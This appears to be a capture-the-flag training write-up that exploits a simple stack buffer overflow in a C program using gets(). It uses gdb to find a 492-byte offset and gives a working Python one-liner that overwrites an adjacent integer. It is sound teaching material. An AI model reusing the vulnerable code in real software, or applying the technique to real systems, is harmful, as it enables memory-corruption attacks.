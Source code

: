 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char buffer[489];
    int g;
    gets(buffer);
    if(g == 0x44864486)
    {
        printf("Your first trainning is complete operative.\n");
    }

}
```

So as we can see here, this program suffers from the same vulnerabillity that level 0 suffered from. The inproper use of the gets() function (really that function shouldn't be used at all).
The buffer is the same size, and the integer is stored right next to the buffer so we should be able to reach the buffer in the same manner.
However this time, the integer is being compared to the hex value 0x44864486 (equivalent to 1149650054 in decimal). This won't be a problem however
since we can just push that value to the integer. That hex value is four bytes (just like ints in 32 bit C programs) so we shouldn't have a problem pushing to it. So our exploit will look like this

```
  filler (x amoubt 0f bytes, around 489) + 0x44864486
```

Unlike the previous problem, we will have to find the exact offset between the char and the int so we can properly set the int equal to 0x44864486. For this, we can use gdb.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b1_64$ gdb ./b1_64 
```

One wall of text later...

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400566 <+0>: push   rbp
   0x0000000000400567 <+1>: mov    rbp,rsp
   0x000000000040056a <+4>: sub    rsp,0x1f0
   0x0000000000400571 <+11>:    lea    rax,[rbp-0x1f0]
   0x0000000000400578 <+18>:    mov    rdi,rax
   0x000000000040057b <+21>:    mov    eax,0x0
   0x0000000000400580 <+26>:    call   0x400450 <gets@plt>
   0x0000000000400585 <+31>:    cmp    DWORD PTR [rbp-0x4],0x44864486
   0x000000000040058c <+38>:    jne    0x400598 <main+50>
   0x000000000040058e <+40>:    mov    edi,0x400628
   0x0000000000400593 <+45>:    call   0x400430 <puts@plt>
   0x0000000000400598 <+50>:    mov    eax,0x0
   0x000000000040059d <+55>:    leave  
   0x000000000040059e <+56>:    ret    
End of assembler dump.
gdb-peda$ b *main+31
Breakpoint 1 at 0x400585
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b1_64/b1_64 
07451238
```

Another wall of text later...

```
Breakpoint 1, 0x0000000000400585 in main ()
gdb-peda$ find 07451238
Searching for '07451238' in: None ranges
Found 2 results, display max 2 items:
 [heap] : 0x602010 ("07451238\n")
[stack] : 0x7fffffffdc70 ("07451238")
gdb-peda$ x $rbp-0x4
0x7fffffffde5c: ""
```

Now that we have the addresses of where the buffer and int are stored, let's user python to figure out the difference.

```
guyinatuxedo@tux:~$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7fffffffde5c - 0x7fffffffdc70
492
```

So we have the correct offset in order to properly oveerflow the int (492). One thing, due to how C programs read hex values we will have to push the hex in little endian format (least significant bit first). Essentially we will have to break the hex string up into four seperate pieces, and push them on in reverse order (and we ignore the 0x in the beginning). Look at the actual exploit for more detail. 

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b1_64$ python -c 'print "1"*492 + "\x86\x44\x86\x44"' | ./b1_64
Just a little bit harder. But not as hard as all of the research you have to do. Level Cleared!
```

And just like that, we pwned the binary. Now let's patch it. 
